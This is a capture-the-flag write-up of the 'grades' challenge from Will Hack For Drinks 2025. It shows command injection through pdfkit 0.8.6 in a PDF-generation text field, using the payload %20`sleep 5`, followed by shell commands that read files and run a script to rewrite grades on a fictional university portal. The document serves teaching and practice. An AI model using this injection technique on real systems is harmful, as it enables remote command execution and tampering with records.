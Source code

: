 ```yaml
---
title: 'WHFD 2025 - grades'
shortTitle: 'grades'
date: 2025-04-11
length: 5 min
author: Colorman
headline: Read a solution to grades in Will Hack For Drinks 2025
---
```


> **3 - Grades**
>
> _Suggested difficulty: normal_
>
> The semester has come to a brutal end, and the results are in. You log in to
> the Intrusion Technics University (ITU) study management platform, My Study
> Activities to check your exam results. ITU is known for its unforgivingly high
> exam standards, and it seems your modest performance didn't make the cut.
>
> The means disappointed looks from friends and family, your future plans
> practically in shambles, and worst of all: the dreaded re-exam. But you're not
> ready to give up just yet! Setbacks are just opportunities in disguise, right?
> Somewhere in the depths of the university’s labyrinthine digital
> infrastructure, there has to be a way forward. You just need to find it.
>
> <https://grades.chall.itunderground.dk/static/index.html>

---

On the challenge we are greeted by a university grade platform. Going into
"examination results" we see a message indicating that we need to get a much
higher grade point average.

![examination result](/media/writeups/whfd25/grades/examination_results.png)

From the message we can assume that we are somehow meant to increase our GPA to
acceptable levels.

Exploring the site further, we find a page where you can print a PDF of your
examination results:

![printsite](/media/writeups/whfd25/grades/print1.png)

Most of the options in the dropdown don't work, but the one titled "BestÃ¥ede
resultater for igangvÃ¦rende uddannelser".

In addition to this, there's a text field for user input.

Clicking the CREATE PDF button generates a PDF file in the browser, with the
user input in the PDF. Interestingly, in the bottom of the PDF we see the text
"Created with love by pdfkit 0.8.6".

Googling "pdfkit 0.8.6 vulnerabilities" shows that this specific version of
pdfkit is vulnerable to command injection. In particular is a
[Snyk article](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) that
shows that using the string

```
%20`sleep 5`
```

causes the `sleep 5` command to get injected and ran by the program. And sure
enough, entering the above into the text field and clicking the button causes it
site to hang for 5 seconds!

We can push this further: the output of the command is visible in the PDF, so
using a command like `ls` we can see 2 files in the current directory:
`grades.csv` and `set_grade.sh`. Very suspicious. We can see using
`cat grades.csv` that it's a `csv` file that contains two columns, subject IDs
and grades:

```csv
subject,grade
BSHAXXX1KE,10
BSCTFWN1KE,7
BS4N5EC1KE,10
BSDBSQL1KE,10
BSR3V3R1KE,10
BSM4LW4R1KE,10
BS42PWN1KE,12
```

The `set_grade.sh` script seems useful. `cat`ing it we see that it takes a
subject ID and a grade, and seemingly modifies the CSV file somehow?

```sh
#!/bin/sh
# Function to print help information
usage() {
	echo "Sets the grade for a course"
	echo "ONLY FOR USE BY PROFESSORS"
	echo "Usage: $0 <ID> <NUMBER>"
	echo " <ID>: A course identifier"
	echo " <GRADE>: A grade"
	exit 1
}
# Check if exactly two arguments are provided
if [ "$#" -ne 2 ]; then
	usage
fi
ID="$1"
GRADE="$2"
grades_file="grades.csv"
found=0
awk -F, -v lookup="$ID" -v newval="$GRADE" -v found_ref="$found" 'BEGIN {OFS=","}
 $1 == lookup { $2 = newval; found_ref=1 }
 { print }
		END { if (found_ref == 0) exit 1 }' "$grades_file" >temp.csv
if [ $? -eq 1 ]; then
	echo "Error: Course '$ID' not found in '$grades_file'." >&2
	rm temp.csv
	exit 1
fi

echo "Grade for course '$ID' set to '$GRADE'."
mv temp.csv "$grades_file"
```

Let's try setting the grade of the first subject to 12, the highest grade in the
Danish education system:

```
> ./set_grade.sh BSHAXXX1KE 12
```

Once we've done this, we can already see the result in the PDF file! The subject
grade has been updated to 12!

![grade got upgraded](/media/writeups/whfd25/grades/resultup.png)

Let's do this to all the grades. After doing it, we go back to the results page
and we got the flag!

![flag](/media/writeups/whfd25/grades/flag.png)
